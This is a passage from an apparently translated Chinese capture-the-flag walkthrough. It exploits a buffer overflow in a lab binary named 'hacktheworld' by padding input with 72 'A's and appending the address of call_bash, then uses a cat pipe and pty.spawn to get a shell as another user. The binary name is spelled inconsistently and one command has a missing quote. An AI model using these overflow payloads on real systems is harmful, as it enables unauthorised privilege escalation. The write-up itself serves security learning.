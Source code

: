 **我发现提供 **72 "A"** 会导致**分段错误**的发生，任何不足都不会导致程序崩溃。接下来，我用“ **readelf** ”和“ **grep** ”找到了“ **call_bash** ”函数的内存地址。**

```
readelf -s hacktheworld | grep -i "call_bash"
```

**这为函数" **call_bash** "提供了如下地址。**

**![](img/8fdc5d8006fa8d0b2c7ea76b523f7e65.png)**

**我现在可以将这个内存地址以十六进制格式**附加到我的**72“A”**的末尾，同时仍然保持写在内存中的函数的**字符顺序**。****

```
python -c 'print "A"*72 + \x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacketheworld
```

**这成功地调用了函数，但是我没有得到预期的升级的 shell。相反，我得到一个分段错误。**

**![](img/a5c8ef07d616a69cb19df92069780835.png)**

**在花了一些时间试图找出为什么我不能让漏洞工作之后，我看到了 LiveOverflow 提供的解释。当我利用程序创建一个 shell 时，shell 被执行，但是没有任何输入，所以 shell 最终只是退出。为了解决这个问题，我可以将我的漏洞利用与命令 **cat** 结合起来，如下所示。**

```
(python -c 'print "A"*72 + \x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacketheworld
```

**这很有效，我已经成功地将我的权限升级到了用户**幽灵**。**

**![](img/8f102aa6fa04caa98ad9dfeb23e36e44.png)**

**我使用 python 来导入 **pty** 模块，并创建一个完全交互式的 TTY 外壳，如下所示。**

```
python -c 'import pty; pty.spawn("/bin/sh")'
```
